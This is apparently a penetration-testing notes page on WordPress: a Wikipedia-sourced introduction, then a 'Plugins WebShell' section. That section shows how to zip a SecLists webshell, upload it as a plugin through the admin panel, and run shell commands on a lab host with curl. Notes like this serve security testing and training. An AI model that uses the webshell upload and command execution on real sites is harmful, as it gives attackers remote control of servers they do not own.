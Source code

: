 # WordPress

## WordPress CMS

**WordPress** \(**WP**, **WordPress.org**\) is a [free and open-source](https://en.wikipedia.org/wiki/Free_and_open-source_software) [content management system](https://en.wikipedia.org/wiki/Content_management_system) \(CMS\) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in_%28computing%29) and a [template system](https://en.wikipedia.org/wiki/Web_template_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic_mailing_list) and [forums](https://en.wikipedia.org/wiki/Internet_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning_management_system) \(LMS\) and [online stores](https://en.wikipedia.org/wiki/Shopping_cart_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite_note-Usage_of_content_management_systems_for_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive_display_systems) \(PDS\).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

### Plugins WebShell

First, find a webshell and compress it into a zip file:

```text
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow this steps:

Plugins -&gt; Add New -&gt; Upload Plugin -&gt; Browse -&gt; plugin-shell.zip -&gt; Open -&gt; Install Now -&gt;

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```text
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

